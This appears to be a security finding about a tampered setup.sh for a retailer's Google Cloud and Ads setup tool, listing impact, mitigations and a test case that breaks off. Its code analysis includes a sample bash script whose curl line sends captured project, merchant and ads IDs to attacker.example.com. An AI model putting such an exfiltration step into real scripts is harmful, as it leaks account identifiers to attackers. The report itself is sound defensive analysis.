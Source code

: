 ### Data Exfiltration via Modified Setup Script

- **Description:**
    1. Attacker creates modified `setup.sh` to exfiltrate sensitive information.
    2. Modified script includes commands to capture command-line arguments (`project_id`, `merchant_id`, `ads_customer_id`).
    3. Attacker uses social engineering to trick retailer into running compromised script.
    4. Modified script exfiltrates captured data to attacker-controlled server.
    5. Script then executes original `setup.sh` logic, masking compromise.
- **Impact:**
    - Exposure of GCP Project ID, Google Merchant Center ID, and Google Ads Customer ID.
    - Allows attacker to target retailer's Google accounts for further attacks.
    - Enables potential further attacks aimed at data exfiltration or account compromise.
- **Vulnerability Rank:** Medium
- **Currently Implemented Mitigations:**
    - None. No measures to prevent modified script execution or verify `setup.sh` integrity.
- **Missing Mitigations:**
    - Integrity Checks: Checksums or digital signatures for `setup.sh`.
    - Secure Distribution: Provide `setup.sh` via secure channel, advise downloading from official repo and verifying source.
    - User Warnings: Warn about risks of running scripts from untrusted sources and importance of script integrity verification.
    - Input Validation (Limited Mitigation): Input validation in Python scripts can mitigate some downstream risks after initial access.
- **Preconditions:**
    - Social engineering to convince retailer to run modified `setup.sh`.
    - Retailer provides valid GCP Project ID, Google Merchant Center ID, and Google Ads Customer ID as arguments.
- **Source Code Analysis:**
    1. **`setup.sh` script:** Entry point, executes `python cloud_env_setup.py "$@"`.
    ```bash
    #!/bin/bash
    ...
    python cloud_env_setup.py "$@"
    ```
    2. **Vulnerability Point:** Lack of integrity checks on `setup.sh`.
    3. **Malicious Modification Example:** Modified `setup.sh` to exfiltrate command-line arguments before original logic:
    ```bash
    #!/bin/bash
    # Modified setup.sh

    PROJECT_ID=$(echo "$@" | awk ...)
    MERCHANT_ID=$(echo "$@" | awk ...)
    ADS_CUSTOMER_ID=$(echo "$@" | awk ...)

    curl "https://attacker.example.com/exfiltrate?..."

    # Original setup.sh content starts here
    ...
    python cloud_env_setup.py "$@"
    ```
    4. **Execution Flow:** Modified script exfiltrates data first, then runs original script, masking malicious activity.
- **Security Test Case:**
    1. **Setup Attacker Server:** Setup HTTP server to listen for requests (e.g., `attacker.example.com`).
    2. **Modify `setup.sh`:** Add malicious code from Source Code Analysis to `setup.sh` to exfiltrate arguments to attacker server.
    ```bash
    #!/bin/bash